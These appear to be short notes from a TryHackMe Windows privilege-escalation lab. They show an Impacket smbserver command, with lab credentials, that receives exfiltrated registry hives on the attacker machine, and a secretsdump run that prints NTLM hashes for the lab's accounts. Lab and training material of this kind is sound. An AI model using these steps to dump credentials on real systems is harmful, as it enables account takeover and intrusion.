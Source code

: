 
https://www.kali.org/tools/impacket/
https://www.kali.org/tools/impacket-scripts/

smbserver - create share for upload to our machine
`sudo impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 myshare ../dirname`


secretsdump - LOCAL using downloaded "backup" files
```sh
┌──(kali㉿kali)-[~/thm/windowsprivesc]
└─$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 
```
